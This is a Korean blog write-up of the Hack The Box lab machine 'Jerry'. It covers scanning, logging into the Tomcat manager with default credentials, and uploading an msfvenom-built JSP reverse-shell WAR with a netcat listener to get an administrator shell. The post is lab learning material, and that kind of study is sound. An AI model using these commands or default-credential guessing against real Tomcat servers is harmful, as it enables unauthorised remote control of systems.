 ```yaml
---
date: '2023-03-20'
before : '2023-03-15'
after : '2023-03-20'
title: 'Hack The Box Machine : Jerry'
categories: ['C-SEC', 'KOR', 'webhack', 'HTB']
summary: 'HTB 2023 Machine 중 하나인 inject의 풀이'
thumbnail: '../contentImages/jerry/jerry.png'
---
```


<aside>
💡 노션으로 써본 첫 블로그 글!
</aside>

### 0. 시작하기 전에

![jerry.png](../contentImages/jerry/jerry.png)

오늘 풀어볼 문제는 HTB의 가장 기본적인 머신중 하나인 제리이다. 푸는데에는 30분이 채 안 걸렸지만, 엉뚱한곳에서 막혀서 살짝 헤메긴 했지만 별 문제없이 풀 수 있었다. 난이도는 아주 쉽다.

### 1. Information Gathering

![1.png](../contentImages/jerry/1.png)

딱 8080포트에 http proxy 하나 열려 있었다. 들어가보니 대충 이런 Tomcat 설명 페이지이다. 매니저 앱을 들어가려고 하니 로그인을 하라고 하고, 틀리니 에러 페이지가 떴다.

![4.png](../contentImages/jerry/4.png)

이 부분에서 한참 헤맸다… 분명 다시 로그인을 하라고 떠야하는데 안뜨길래 엥?? 뭐지? 로그인이 의미가 없는 부분인가? 다른곳에 뭐가 있나? 아닌것같은데..하고 생각하다가 아무리생각해도 이상해서 인터넷을 검색해보니 다른사람들은 잘만 여러번 로그인을 하고 있던 것이다. 당연하게도 아까 내가 로그인 데이터 저장을 누르는 바람에 쿠키에 남아있어서 그랬다. (…) 그래서 그냥 쿠키 지우고 여러가지 Tomcat 기본 크레덴셜로 로그인 시도를 하다보니 로그인이 됐다.

![3.png](../contentImages/jerry/3.png)

### 2. Initial Foothold/Exploitation

이번 문제는 딱히 Privilege Escalation이 필요하지 않았다. Reverse Shell을 얻어보니 그냥 root였다.

![5.png](../contentImages/jerry/5.png)

앱을 탐색하니 저렇게 war 파일을 업로드 할 수 있는 function이 있다. 빠르게 msfvenom으로 reverse shell을 만들어서 업로드해보자.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.41 LPORT=8000 -f war -o revshell.war
=> 이 쉘을 웹 사이트에 업로드
nc -lvnp 8000 : listening server 시작
```

이렇게 업로드를 해주고 /shell.war을 방문하면 당연히 war 코드가 실행될 것이고, payload에 적은 대로 내 컴퓨터 8000번 포트에 shell이 연결된걸 확인할 수 있었다.

```bash
C:\ > whoami
Administarator\Service
```

확인해보니 이미 root 계정이 되어있다. 이곳저곳 탐색해보니 root.txt와 user.txt를 확인할 수 있었다.

### 3. 후기

솔직히 진짜 쉬운 문제고, 빨리 풀면 10분이면 풀 것 같은데, 쿠키를 안 지워서 더 걸렸다는게 자존심 상한다… 결국 다른 사람이랑 비교해보고 알아챈것도 너무너무 자존심 상한다… 그래도 실전에서 이런 실수 안하는게 어디야. 쉬운 문제지만 또 하나 배웠다.

## Source

- Hack The Box 2023
- Me!
